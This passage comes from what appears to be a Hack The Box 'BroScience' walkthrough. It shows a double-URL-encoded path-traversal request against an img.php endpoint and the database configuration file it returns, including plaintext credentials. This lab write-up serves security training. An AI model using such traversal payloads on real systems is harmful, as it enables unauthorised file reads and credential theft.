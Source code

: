   <img src="/images/walkthroughs/hackthebox/broscience/1_8_lfi.png" width="80%">
</p>  

- index.php (just interesting lines)

```php
<?php
include_once 'includes/db_connect.php';
        
// Load exercises
$res = pg_query($db_conn, 'SELECT exercises.id, username, title, image, SUBSTRING(content, 1, 100), exercises.date_created, users.id FROM exercises JOIN users ON author_id = users.id');
```

I wanted the db_connect.php since I saw it on the includes subdirectory, let's get it:

Payload:

```bash
GET /includes/img.php?path=%252e%252e%252fincludes%252fdb_connect.php HTTP/1.1
Host: broscience.htb
```

Reponse:

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```